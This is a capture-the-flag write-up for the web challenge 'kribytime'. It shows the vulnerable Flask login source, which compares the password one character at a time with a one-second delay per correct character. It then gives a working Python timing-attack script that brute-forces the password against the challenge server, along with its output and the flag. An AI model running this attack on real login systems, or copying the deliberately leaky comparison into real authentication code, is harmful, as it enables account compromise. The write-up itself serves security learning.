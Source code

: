 # kribytime

Category: WEB

Points: 126

Solves: 212

>Welcome to Kirby's Website.


### Solution

Most obnoxious timing attack challenge:

```py
import sqlite3
from flask import Flask, request, redirect, render_template
import time
app = Flask(__name__)


@app.route('/', methods=['GET', 'POST'])
def login():
    message = None
    if request.method == 'POST':
        password = request.form['password']
        real = 'REDACTED'
        if len(password) != 7:
            return render_template('login.html', message="you need 7 chars")
        for i in range(len(password)):
            if password[i] != real[i]:
                message = "incorrect"
                return render_template('login.html', message=message)
            else:
                time.sleep(1)
        if password == real:
            message = "yayy! hi kirby"

    return render_template('login.html', message=message)

if __name__ == '__main__':
    app.run(host='0.0.0.0')
```

Looks like it checks a length 7 password char by char, and if the char is correct it will wait for 1 second, otherwise it will fail. We can just bruteforce char by char and see when the response takes 1 second longer (May need to run multiple times since instance times out too fast :skull: just be sure to modify the password and range to skip already found chars, I also just guessed the last char instead of waiting :skull:):

```py
import requests
import string

password = ["x","x","x","x","x","x","x"]

for i in range(7):
    for char in string.ascii_letters:
        password[i] = char;
        data = {
            'password': ''.join(password),
        }
        response = requests.post('http://34.31.154.223:57719', data=data)
        print(response.elapsed.total_seconds(), char)
        if response.elapsed.total_seconds() > i+1:
            print(''.join(password))
            break
```

```py
...
0.182681 j
1.170158 k
kxxxxxx
1.176712 a
1.172837 b
...
1.183299 A
2.177066 B
kBxxxxx
2.183253 a
2.171713 b
...
2.253518 x
3.230859 y
kByxxxx
3.515871 a
3.192597 b
...
3.182717 R
4.265577 S
kBySxxx
4.227163 a
4.241624 b
...
4.268185 k
5.302939 l
kBySlxx
6.245504 a
kBySlax
6.245765 a
6.238724 b
...
6.339974 X
7.248733 Y
kBySlaY
```

### Flag

```LITCTF{kBySlaY}```